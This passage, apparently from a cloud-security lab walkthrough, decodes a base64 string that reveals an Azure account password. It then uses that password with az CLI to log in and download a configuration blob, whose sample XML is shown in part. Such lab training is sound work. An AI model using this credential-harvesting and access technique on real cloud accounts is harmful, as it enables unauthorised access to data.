 Then decode with the following
```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("IyBDcmVkZW50aWFsczogVXNlcjogc2VjdXJpdHktdXNlciB8IFBhc3N3b3JkOiBJbXAwc2VjMHNUIQpheiBzdG9yYWdlIGJsb2IgZG93bmxvYWQgLS1hY2NvdW50LW5hbWUgc2VjdXJpdHljb25maWdzIC0tY29udGFpbmVyLW5hbWUgc2VjdXJpdHktcGMgLS1uYW1lIGNvbmZpZy1sYXRlc3QueG1sIC0tYXV0aC1tb2RlIGxvZ2luCg=="))
```






----

# 6.  Check blob!


![](https://i.imgur.com/oYLuOg2.png)



[[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Azure Storage Account\|../Azure Services/Azure Storage Account]]


```
# Credentials: User: security-user | Password: *****!

az logout

az login -u security-user@megabigtech.com  -p *****!
az storage blob download --account-name securityconfigs --container-name security-pc --name config-latest.xml --auth-mode login
```

```
<?xml version="1.0" encoding="UTF-8"?>
<SecurityConfiguration>
    <!-- Resource Group Settings -->
    <ResourceGroup>
        <Name>MegaTechResourceGroup</Name>
        <Location>East US</Location>
        <Description>Primary resource group for Mega Big Tech security application.</Description>
    </ResourceGroup>

    <!-- Tenant and Subscription Information -->
    <Tenant>
        <ID>12345678-1234-1234-1234-123456789012</ID>
        <Name>MegaBigTechTenant</Name>
        <Subscription>
            <ID>abcd1234-abcd-1234-abcd-1234abcd1234</ID>
            <Name>MegaTechSecuritySubscription</Name>
            <Type>Premium</Type>
            <StartDate>2023-01-01</StartDate>
            <EndDate>2024-01-01</EndDate>
        </Subscription>
    </Tenant>

    <!-- Alerting Settings -->
    <Alerting>
        <Email>securityalerts@megabigtech.com</Email>
        <SMTPServer>
            <Address>smtp.megabigtech.com</Address>
            <Port>587</Port>
        </SMTPServer>
        <Thresholds>
            <CPUUsage>90</CPUUsage> <!-- Percentage -->
            <MemoryUsage>90</MemoryUsage> <!-- Percentage -->
```